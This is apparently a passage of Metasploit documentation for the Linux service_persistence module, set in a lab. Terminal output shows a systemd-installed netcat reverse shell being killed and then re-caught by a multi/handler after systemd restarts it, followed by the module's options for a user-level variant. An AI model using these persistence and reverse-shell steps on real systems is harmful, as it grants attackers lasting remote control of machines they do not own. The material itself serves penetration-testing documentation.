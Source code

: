     ^Z
    Background session 7? [y/N]  y

Kill the process on the Ubuntu target box via local access #good_admin

    root@ubuntu:/etc/systemd/system/multi-user.target.wants# netstat -antp | grep 4444
    tcp        0      0 192.168.199.130:47052   192.168.199.128:4444    ESTABLISHED 5632/nc
    root@ubuntu:/etc/systemd/system/multi-user.target.wants# kill 5632

And logically, we lose our shell

     [*] 192.168.199.130 - Command shell session 7 closed.  Reason: Died from EOFError

Now with a multi handler, we can catch systemd restarting the process every 10sec


    msf exploit(service_persistence) > use exploit/multi/handler 
    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

     Name  Current Setting  Required  Description
     ----  ---------------  --------  -----------
    
    Payload options (cmd/unix/reverse_netcat):

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  192.168.199.128  yes       The listen address
     LPORT  4444             yes       The listen port

    Exploit target:

     Id  Name
     --  ----
     0   Wildcard Target

    msf exploit(handler) > exploit

    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Starting the payload handler...
    [*] Command shell session 8 opened (192.168.199.128:4444 -> 192.168.199.130:47056) at 2016-06-22 10:37:30 -0400

### systemd user (Ubuntu 16.04 Server - vagrant)

    msf5 exploit(linux/local/service_persistence) > options

    Module options (exploit/linux/local/service_persistence):

       Name        Current Setting  Required  Description
       ----        ---------------  --------  -----------
       SERVICE                      no        Name of service to create
       SESSION     -1               yes       The session to run this module on.
       SHELLPATH   /tmp             yes       Writable path to put our shell
       SHELL_NAME                   no        Name of shell file to write


    Payload options (cmd/unix/reverse_netcat):
